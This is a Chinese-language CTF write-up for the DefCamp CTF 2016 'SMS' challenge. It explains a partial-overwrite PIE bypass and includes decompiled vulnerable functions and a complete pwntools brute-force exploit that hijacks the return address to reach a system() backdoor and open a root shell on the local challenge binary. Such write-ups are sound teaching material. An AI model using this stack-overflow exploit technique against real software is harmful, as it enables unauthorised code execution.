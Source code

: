 ﻿---
layout: post
title: pwn DefCampCTF2016 SMS
excerpt: "DefCampCTF2016 SMS wirteup"
categories: [Writeup]
comments: true
---

PIE(position-independent executable, 地址无关可执行文件技术就是一个针对代码段`.text`, 数据段`.*data`，`.bss`等固定地址的一个防护技术。

本文通过partial write绕过PIE

partial write(部分写入)就是一种利用了PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为0x1000，这就意味着不管地址怎么变，某条指令的后12位，3个十六进制数(就是最后的1.5个字节)的地址是始终不变的。

由于程序是小端序,所以覆盖return addr的时候会从后往前覆盖,因此通过覆盖EIP的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP

最终就是写入1.5个字节的地址,爆破0.5个字节的地址,完成绕过PIE保护

checksec
```python
>>> from pwn import *
>>> print ELF('./SMS').checksec()
[*] '/root/sploitfun/DefCamp_CTF_2016/SMS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
通过ida查看到程序中的后门地址,通过查看frontdoor的汇编代码我们知道其地址后三位是0x900
```
int frontdoor()
{
  char s; // [sp+0h] [bp-80h]@1

  fgets(&s, 128, _bss_start);	//将消息读取到s中,然后运行这个后门
  return system(&s);
}
```
```
.text:0000000000000900                 push    rbp
.text:0000000000000901                 mov     rbp, rsp
.text:0000000000000904                 add     rsp, 0FFFFFFFFFFFFFF80h
.text:0000000000000908                 mov     rdx, cs:__bss_start ; stream
.text:000000000000090F                 lea     rax, [rbp+s]
.text:0000000000000913                 mov     esi, 80h        ; n
.text:0000000000000918                 mov     rdi, rax        ; s
.text:000000000000091B                 call    _fgets
.text:0000000000000920                 lea     rax, [rbp+s]
.text:0000000000000924                 mov     rdi, rax        ; command
.text:0000000000000927                 call    _system
.text:000000000000092C                 nop
.text:000000000000092D                 leave
```
set_user得知name的地址在a1 + 140
```c
int __fastcall set_user(__int64 a1)
{
  char s[140]; // [sp+10h] [bp-90h]@1
  int i; // [sp+9Ch] [bp-4h]@1

  memset(s, 0, 0x80uLL);
  puts("Enter your name");
  printf("> ", 0LL);
  fgets(s, 128, _bss_start);		//读128个字符到s中
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];		//最多向a1中写入40个字节
  return printf("Hi, %s", a1 + 140);
}
```
而set_sms中,strncpy的长度保存在a1 + 180
```c
char *__fastcall set_sms(__int64 a1)
{
  char s; // [sp+10h] [bp-400h]@1

  memset(&s, 0, 0x400uLL);
  puts("SMS our leader");
  printf("> ", 0LL);
  fgets(&s, 1024, _bss_start);		//读1024个字符到s中
  return strncpy((char *)a1, &s, *(_DWORD *)(a1 + 180));	//写入的长度受setname控制,造成栈溢出
}
```
从而可以通过name,控制set_sms中strncpy的长度
```
int dosms()
{
  char v1; // [sp+0h] [bp-C0h]@1
  int v2; // [sp+8Ch] [bp-34h]@1
  int v3; // [sp+B4h] [bp-Ch]@1

  memset(&v2, 0, 0x28uLL);
  v3 = 140;
  set_user((__int64)&v1);
  set_sms((__int64)&v1);
  return puts("SMS delivered");
}
```
payload如下
```
payload = 'a'*40                                        #padding
payload += '\xca'                                        #修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
io.sendline(payload)
io.recv()
payload = 'a'*200                                        #padding
payload += '\x01\xa9'                                #frontdoor的地址后三位是0x900, +1跳过push rbp
io.sendline(payload)
```
我们看到注释里用的不是0x900而是0x901，这是因为在实际调试中发现跳转到frontdoor时会出错。为了验证payload的正确性，我们可以在调试时通过IDA修改内存地址修正爆破位的值，此处从略。

最终payload
```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

context.update(arch = 'amd64', os = 'linux')
i = 0

while True:
	i += 1
	print i
	io = process('SMS')
	io.recv()
	payload = 'a'*40					#padding
	payload += '\xca'					#修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
	io.sendline(payload)
	io.recv()
	payload = 'a'*200					#padding
	payload += '\x01\xa9'				#frontdoor的地址后三位是0x900, +1跳过push rbp
	io.sendline(payload)
	io.recv()
	try:
		io.recv(timeout = 1)			#要么崩溃要么爆破成功，若崩溃io会关闭，io.recv()会触发EOFError
	except EOFError:
		io.close()
		continue
	else:
		sleep(0.1)
		io.sendline('/bin/sh\x00')
		sleep(0.1)
		io.interactive()				#没有EOFError的话就是爆破成功，可以开shell
		break
```
最终结果
```
[+] Starting local process './SMS': pid 24042
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```